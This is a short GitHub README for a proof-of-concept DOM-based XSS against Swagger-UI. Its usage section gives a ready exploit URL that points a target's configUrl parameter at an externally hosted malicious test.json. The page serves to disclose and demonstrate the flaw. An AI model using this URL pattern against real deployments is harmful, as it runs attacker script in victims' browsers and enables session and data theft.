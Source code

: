 <div><img src="https://github.com/Wh02m1/Swagger-UI-XSS/assets/21974999/5959b545-3672-4dca-a782-1cc36dd8b99f" alt="Logo" width="70" style="float:left; margin-right: 20px;"/><h1>Swagger-UI DOM Based XSS POC</h1></div>


This repository serves as a Proof of Concept (POC) for demonstrating **DOM-based Cross-Site Scripting (XSS)** vulnerabilities in Swagger-UI.

![Screenshot 2024-02-22 214408](https://github.com/Wh02m1/Swagger-UI-XSS/assets/21974999/f29d0448-e7b6-4ee2-a43a-48e4cb4624fc)

# Usage
Add `https://wh02m1.github.io/Swagger-UI-XSS/test.json` to the **configUrl** parameter.
It will be like this `https://domain/endpoint?configUrl=https://jumpy-floor.surge.sh/test.json`

